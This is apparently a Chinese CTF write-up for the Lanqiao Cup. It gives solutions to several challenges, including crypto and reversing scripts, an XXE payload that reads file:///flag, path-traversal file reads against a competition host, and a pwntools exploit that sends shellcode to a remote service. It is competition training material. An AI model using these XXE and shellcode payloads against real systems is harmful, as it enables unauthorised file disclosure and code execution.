# 蓝桥杯wp

# Enigma

## 题目



## 分析



## Flag

flag{HELLOCTFERTHISISAMESSAGEFORYOU}

# 星际XML解析器

## 题目



## 分析

输入代码：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE nsfocus-sec [  
<!ELEMENT methodname ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]>
<methodcall>
<methodname>&xxe;</methodname>
</methodcall>
```

## Flag

​`flag{b987980e-3201-46d2-b5b8-b6dbfd359aba}`​

# ezEvtx

## 题目


## 分析



## flag

flag{confidential.docx}

# flowzip

## 题目



## 分析

简单的流量分析，一把梭



## flag

如图

# 黑客密室逃脱

## 题目



## 分析



首先看到自己的flag

访问http://eci-2ze3w0cq8bn695me87c0.cloudeci1.ichunqiu.com:5000/file?name=app.py，获得加密代码



访问http://eci-2ze3w0cq8bn695me87c0.cloudeci1.ichunqiu.com:5000/file?name=/app/hidden.txt，获得解密密钥



编写解密代码：

```python
key = 'secret_key6111'
flag='d9d1c4d9e0a798a39ab16b946a5ed5c8c7d692a8c4ce95a66f669766a09ac7a49dd9c09dc7b2696a92ae'
new=bytearray()
flag=bytes.fromhex(flag)
for i in range(len(flag)):
    decrypt=flag[i]-ord(key[i%len(key)])
    new.append(decrypt)
print(new)
```

得到flag



## flag

flag{398585c9-bcdd-4ec0-95f5-5d28ea2b939a}

# ShadowPhases

## 题目



## 分析

用idapro打开查看：



简单来说，这段代码通过一系列初始化和处理步骤生成了一个特定的字符串 Str2，然后要求用户输入一个字符串进行验证，如果用户输入的字符串与 Str2 相等，则视为成功，否则视为失败。

得知：

```python
block=[0x00,0x05,0x83,0x80,0x8E,0x2B,0x00,0x83,0x2F,0xAA,0x2B,0x81,0xA8,0xA5]
v17=[0x13,0x39,0xBE,0xBE,0xB4,0x38,0xB8,0xBA,0xBB,0xB4,0x3E,0x90,0x3A,0xBA,0xB4]
v16=[0x8B,0x89,0x22,0x88,0x8B,0x20,0x09,0x22,0x88,0x08,0x8D,0x88,0xAF]

key1=0x99^0xFF
key2=0xDD^0x99
key3=0xFF^0xDD
```

通过位运算和异或操作处理三个字节数组 block、v17 和 v16，生成一个字符串 flag。它首先计算三个密钥 key1、key2 和 key3，然后对每个字节数组分别进行位移和异或处理，最后将处理后的结果拼接并转换为字符串输出。

编写代码;

```python
block=[0x00,0x05,0x83,0x80,0x8E,0x2B,0x00,0x83,0x2F,0xAA,0x2B,0x81,0xA8,0xA5]
v17=[0x13,0x39,0xBE,0xBE,0xB4,0x38,0xB8,0xBA,0xBB,0xB4,0x3E,0x90,0x3A,0xBA,0xB4]
v16=[0x8B,0x89,0x22,0x88,0x8B,0x20,0x09,0x22,0x88,0x08,0x8D,0x88,0xAF]

key1=0x99^0xFF
key2=0xDD^0x99
key3=0xFF^0xDD

def shift(a1):
    return ((a1 << 1) | (a1 >> 7)) & 0xFF

def xor(a1,a2,a3):
    for i in range(a2):
        a1[i]=a3^shift(a1[i])
    return a1

flag1=xor(block,14,key1)
flag2=xor(v17,15,key2)
flag3=xor(v16,13,key3)
flag=''.join(map(chr,flag1+flag2+flag3))
print(flag)

```

## flag

flag{0fa830e7-b699-4513-8e01-51f35b0f3293}

# RuneBreach

## 题目



## 分析



从题可知，是一个shellcode获取题目，我们可以通过编写脚本进行攻击，通过多次发送“n”跳过防御选项，获取一个可执行内存区域的地址，然后发送shellcode以读取flag文件的内容。

```python
from pwn import *
# p=process('/root/Desktop/test/chall')
p=remote( '8.147.132.32',25659)
context(arch='amd64',os='linux',log_level='debug')
p.recvuntil(b'Defend? (y/N): ')
p.sendline(b'n')
p.recvuntil(b'Defend? (y/N): ')
p.sendline(b'n')
p.recvuntil(b'Defend? (y/N): ')
p.sendline(b'n')
p.recvuntil(b'Defend? (y/N): ')
p.sendline(b'n')
p.recvuntil(b'Your place is mine now ')
shell_addr = int(p.recvuntil(b'!\n',drop=True), 16)
print('exec_area:', hex(shell_addr))
shellcode = asm(shellcraft.cat('./flag'))
p.sendline(shellcode)
p.interactive()

```



## flag

flag{df2f04c5-a0e6-46f6-ac05-801012e6c02d}

# ECBTrain

## 题目



## 分析：

这个**是填充问题，每16个一组，开头不能是admin就写16个1再填admin，每组结果都是一样的，然后解base64拆开。**

编写一下脚本：

```python
import base64
from Crypto.Cipher import AES

key = b'1111111111111111'
username = '1111111111111111admin'
auth = 'wvRW8xviAiwLIaKmLzZzy5zwfoxLaT5wreTtvUo1YUc='
encrypted_bytes = base64.b64decode(auth)
blocks = [encrypted_bytes[i:i+16] for i in range(0, len(encrypted_bytes), 16)]
for i, block in enumerate(blocks):
    print(f"Block {i + 1}: {block.hex()}")
cipher = AES.new(key, AES.MODE_ECB)
try:
    decrypted_bytes = cipher.decrypt(encrypted_bytes)
    padding_length = decrypted_bytes[-1]
    decrypted_bytes = decrypted_bytes[:-padding_length]
    print("Decrypted username:", decrypted_bytes.decode())
except Exception as e:
    print("Decryption failed:", e)


```

得到：



然后写一段脚本得到auth

```python
import base64

block2_hex = '9cf07e8c4b693e70ade4edbd4a356147'

block2_bytes = bytes.fromhex(block2_hex)

new_auth = base64.b64encode(block2_bytes).decode()

print("新的 auth:", new_auth)
```



粘进去即可得到flag：



## flag：

flag{63e716d5-fbd9-4ce0-b791-7905ccdc458f}

# easy_AES



```python
from Crypto.Cipher import AES  # 导入AES加密模块
from secret import flag       # 从secret模块导入flag（假设为明文）
import random, os             # 导入random和os模块用于随机数生成

# 为消息填充字节，使其长度为16的倍数
def pad(msg):
    return msg + bytes([16 - len(msg) % 16 for _ in range(16 - len(msg) % 16)])

# 对密钥进行随机置换，生成新密钥
def permutation(key):
    tables = [hex(_)[2:] for _ in range(16)]  # 生成0-15的十六进制表（去掉"0x"前缀）
    random.shuffle(tables)                    # 随机打乱表
    newkey = "".join(tables[int(key[_], 16)] for _ in range(len(key)))  # 根据原密钥生成新密钥
    return newkey

# 生成初始密钥key0及其置换密钥key1
def gen():
    key0 = os.urandom(16).hex()  # 随机生成16字节密钥并转为十六进制字符串
    key1 = permutation(key0)     # 对key0进行置换生成key1
    return key0, key1

# 使用key0和key1进行双重AES加密
def encrypt(key0, key1, msg):
    aes0 = AES.new(key0, AES.MODE_CBC, key1)  # 用key0加密，key1作为CBC模式的IV
    aes1 = AES.new(key1, AES.MODE_CBC, key0)  # 用key1解密，key0作为CBC模式的IV
    return aes1.decrypt(aes0.encrypt(msg))    # 先加密后解密生成密文

# 生成密钥对
key0, key1 = gen()
a0, a1 = int(key0, 16), int(key1, 16)  # 将密钥转为整数

gift = a0 & a1  # 计算key0和key1的按位与，作为泄露信息
cipher = encrypt(bytes.fromhex(key0), bytes.fromhex(key1), pad(flag))  # 加密填充后的flag

print(f"gift = {gift}")
print(f"key1 = {key1}")
print(f"cipher = {cipher}")

'''
gift = 64698960125130294692475067384121553664
key1 = 74aeb356c6eb74f364cd316497c0f714
cipher = b'6\xbf\x9b\xb1\x93\x14\x82\x9a\xa4\xc2\xaf\xd0L\xad\xbb5\x0e|>\x8c|\xf0^dl~X\xc7R\xcaZ\xab\x16\xbe r\xf6Pl\xe0\x93\xfc)\x0e\x93\x8e\xd3\xd6'
'''
```

这道题是一个基于AES的双重加密过程，同时通过按位与操作泄露了部分密钥信息。代码首先生成一个随机的初始密钥 key0，然后通过随机置换生成新的密钥 key1。接着，使用 key0 和 key1 对填充后的明文 flag 进行双重AES加密：先用 key0 加密，再用 key1 解密。最后，代码输出了 key1、加密后的密文 cipher，以及 key0 和 key1 的按位与结果 gift。

我们可以通过已知的 gift、key1 和密文 cipher，利用回溯算法尝试爆破出原始的 key0，并使用恢复的 key0 和已知的 key1 对密文进行解密，以查找包含 flag{} 的明文。然后通过一个候选值列表 candidates 来记录每个位置可能的 key0 值，并通过回溯算法逐步尝试这些值，验证是否能够成功解密出包含 flag{} 的明文。

故写出脚本:

```python
from Cryptodome.Cipher import AES
b = {
    '7': ['3', '4', '5', '6', '7', '8', '9', 'a', 'b'],
    '4': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b'],
    'a': ['a', 'b', 'c', 'd', 'e', 'f'],
    'e': ['c', 'd'],
    'b': ['9', 'a', 'b', 'c', 'd'],
    '3': ['1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd'],
    '5': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a'],
    '6': ['4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd'],
    'c': ['0', '1', '2', '3'],
    'f': ['7'],
    'd': ['c', 'd', 'e'],
    '1': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e'],
    '9': ['0', '1', '2', '3', '4', '5', '6'],
    '0': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f']
}
gift = 64698960125130294692475067384121553664
key1_hex = "74aeb356c6eb74f364cd316497c0f714"
cipher = b'6\xbf\x9b\xb1\x93\x14\x82\x9a\xa4\xc2\xaf\xd0L\xad\xbb5\x0e|>\x8c|\xf0^dl~X\xc7R\xcaZ\xab\x16\xbe r\xf6Pl\xe0\x93\xfc)\x0e\x93\x8e\xd3\xd6'

char_to_num = {f"{i:x}": i for i in range(16)}
b_numeric = {}
for k in b:
    k_num = char_to_num[k]
    b_numeric[k_num] = [char_to_num[c] for c in b[k]]

key1_digits = [char_to_num[c] for c in key1_hex]

gift_bin = bin(gift)[2:].zfill(128)
gift_nibbles = [int(gift_bin[i*4 : (i+1)*4], 2) for i in range(32)]


candidates = []
for i in range(32):
    k = key1_digits[i]
    g = gift_nibbles[i]
    
    user_candidates = b_numeric.get(k, list(range(16)))
    
    valid_candidates = [c for c in user_candidates if (c & k) == g]
    candidates.append(valid_candidates)


def solve():
    used = [False] * 16
    mapping = {}  

    def backtrack(pos):
        if pos == 32:
            
            key0_digits = [mapping[k] for k in key1_digits]
            key0_hex = "".join(f"{c:x}" for c in key0_digits)
            try:
                aes0 = AES.new(bytes.fromhex(key0_hex), AES.MODE_CBC, bytes.fromhex(key1_hex))
                aes1 = AES.new(bytes.fromhex(key1_hex), AES.MODE_CBC, bytes.fromhex(key0_hex))
                plaintext = aes0.decrypt(aes1.encrypt(cipher))
                if b"flag{" in plaintext:
                    print("Found valid key0:", key0_hex)
                    print("Flag:", plaintext.decode())
                    return True
            except:
                pass
            return False

        k = key1_digits[pos]
        if k in mapping:  
            return backtrack(pos + 1)

        for c in candidates[pos]:
            if not used[c]:
                
                valid = True
                for future_pos in range(pos+1, 32):
                    future_k = key1_digits[future_pos]
                    if future_k == k:
                        future_g = gift_nibbles[future_pos]
                        if (c & future_k) != future_g:
                            valid = False
                            break
                if not valid:
                    continue

                
                used[c] = True
                mapping[k] = c
                if backtrack(pos + 1):
                    return True
                del mapping[k]
                used[c] = False

        return False

    
    sorted_positions = sorted(range(32), key=lambda x: len(candidates[x]))
    return backtrack(0)


if not solve():
    print("No valid mapping found.")
```

## flag




